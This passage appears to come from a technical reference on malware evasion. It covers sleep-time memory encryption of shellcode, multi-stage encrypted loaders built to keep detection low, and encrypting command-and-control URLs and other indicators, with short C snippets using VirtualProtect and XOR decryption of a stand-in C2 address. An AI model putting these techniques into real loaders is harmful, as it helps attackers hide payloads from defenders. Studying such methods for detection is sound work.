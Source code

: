 **Pattern**: Change memory protection between RW and RX, encrypt when RW.

**Code Pattern**:
```c
// Execute
VirtualProtect(shellcode, shellcodeLen, PAGE_EXECUTE_READ, &oldProtect);
ExecuteShellcode();

// Encrypt
VirtualProtect(shellcode, shellcodeLen, PAGE_READWRITE, &oldProtect);
RC4_Crypt(S, shellcode, shellcodeLen);

// Sleep
Sleep(60000);
```

## Staged Decryption

### Multi-Stage Loader

**Stage 1**: Tiny stub (decrypts Stage 2)
**Stage 2**: Intermediate loader (decrypts Stage 3)
**Stage 3**: Full payload

**Advantage**:
- Only small stub on disk (lower detection)
- Each stage uses different encryption

**Example Flow**:
```
Stage1.exe (XOR-encrypted Stage2)
  → Stage2 (RC4-encrypted Stage3)
    → Stage3 (AES-encrypted final payload)
      → Final Payload (decrypted in memory)
```

## String Encryption

### Configuration Encryption

**IOCs to Encrypt**:
- C2 URLs: `hxxp://malicious-c2.com`
- User-Agent strings
- API function names (used with API hashing)
- Registry keys, file paths

**Example**:
```c
// Encrypted C2 URL
BYTE encURL[] = { 0x4A, 0x8F, 0x23, 0xE1, ... };

// Decrypt at runtime
XOR_Decrypt(encURL, sizeof(encURL), key, keyLen);
char* c2URL = (char*)encURL; // "http://malicious-c2.com"
```
